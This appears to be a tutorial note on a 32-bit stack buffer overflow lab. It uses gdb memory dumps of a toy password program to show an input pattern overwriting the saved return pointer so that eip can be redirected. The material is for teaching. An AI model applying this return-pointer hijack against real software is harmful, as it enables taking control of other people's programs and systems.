 ### Examine memory

```shell
(gdb) x/12x $esp
0xffffd4e0:     0xf7fc14b0      0x414197cb      0x41414141      0x41414141
0xffffd4f0:     0xffff000a      0x56558ff4      0xffffd508      0x56556255
0xffffd500:     0xffffd520      0xf7e1cff4      0x00000000      0xf7c232d5
```
`x`: eXamine memory

`12x`: 12 words(4 bytes per word is default) in hex format

`$esp`: starting from `$esp`

`ebp`, the end of the stack frame, begins at address `0xffffd4f8` and contains `0xffffd508` and the word immediately following that is the `eip` containing the **saved return pointer**. When the function returns, the address `0x56556255` is placed into the `eip`


In 32-bit architecture, the `eip` is 4 bytes (32 bits). In In 64-bit architecture, the `rip` is 8 bytes (64 bits).


`0xffffd4f0` − `0xffffd4e0` = `0x10` 

In the above memory table, each row differs by 16 bytes even though `0x10` is 16 in decimal which is represented by 5 bits. In a computer memory context, addresses are typically byte-addressable, meaning each address corresponds to a single byte of memory. Therefore, if you have two addresses that differ by `0x10`, it means that there are 16 individual byte locations between those two addresses.

"byte-addressable" refers to a memory architecture where each byte (usually consisting of 8 bits) has a unique address. This means that the smallest unit of addressable memory is one byte, allowing the CPU to read or write data at the byte level.


### Buffer Overflow

```shell
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/debian/pwd32
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Password address: 0xffffd4e6
Enter password: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ

Breakpoint 1, test_pw () at pwd.c:9
9               return 1;

(gdb) x/12x $esp
0xffffd4e0:     0xf7fc14b0      0x414197cb      0x42424141      0x43434242
0xffffd4f0:     0x44444343      0x45454444      0x46464545      0x47474646
0xffffd500:     0x48484747      0x49494848      0x4a4a4949      0x000a4a4a
```

The `eip RET` value now contains `0x47474646`, the hex codes for FFGG. This shows we can direct `eip` to the memory address we want
